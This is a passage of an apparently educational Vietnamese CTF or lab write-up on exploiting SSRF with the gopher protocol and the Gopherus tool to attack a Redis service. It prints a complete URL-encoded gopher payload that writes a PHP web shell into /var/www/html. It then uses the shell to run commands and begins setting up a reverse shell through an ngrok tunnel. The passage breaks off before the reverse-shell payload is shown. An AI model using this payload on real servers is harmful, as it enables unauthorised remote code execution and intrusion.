 Nếu sử dụng port 22 để leo lên root thì em phải biết được key nên hướng tấn công của em sẽ là thông qua port 6379 để up shell.

Biết server sử dụng redis để lưu trữ file, em gửi dụng Gopher protocol để upload Phpshell lên đó bằng cách sử dụng tool: [Gopherus](https://github.com/tarunkant/Gopherus)

> Gopher là một giao thức hoạt động ở tầng Application, nó xung cấp cho ta khả năng trích xuất và xem web document được chứa trên remote Server, gopher là tiền thân của HTTP bây giờ. Ok đã biết gopher là gì rồi thì ta đi tìm hiểu xem tại sao gopher có thể sử dụng để khai thác SSRF.
> 
> Gopher có thể sử dụng để truy cập đến các port của dịch vụ đang mở như mysql, redis, SMTP, PostgreSQL, Zabbix, … để sử dụng các dịch vụ đó để có thể RCE hoặc làm gì đó với cá dịch vụ trên.

## Khai thác

Tạo PHPShell bằng Gopherus:

![](https://i.imgur.com/LE0Lc8S.png)

Upload file đó lên Redis của website:

`gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A`

Sau khi upload xong get PHP Shell với payload:

![](https://i.imgur.com/pzc0IDD.png)

Bắt đầu RCE với params `cmd`:

`ls`:

![](https://i.imgur.com/jcNwuNa.png)

![](https://i.imgur.com/1Y19xJQ.png)

Đã thấy được folder `/root` nhưng ta vẫn chưa phải root để truy cập vào.

Còn về file `passwd` cũng không đọc được :<

![](https://i.imgur.com/rtzygsr.png)

Đi dạo quanh cũng không thu thập được gì :<

Em đi theo hướng còn lại của tool Gopherus là tạo ReverseShell:

1. Ngrok tcp: `ngrok tcp 1234`
    ![](https://i.imgur.com/TQ6DLWe.png)

2. Tạo ReverseShell bằng Gopherus:
    ![](https://i.imgur.com/Lw4ob6l.png)
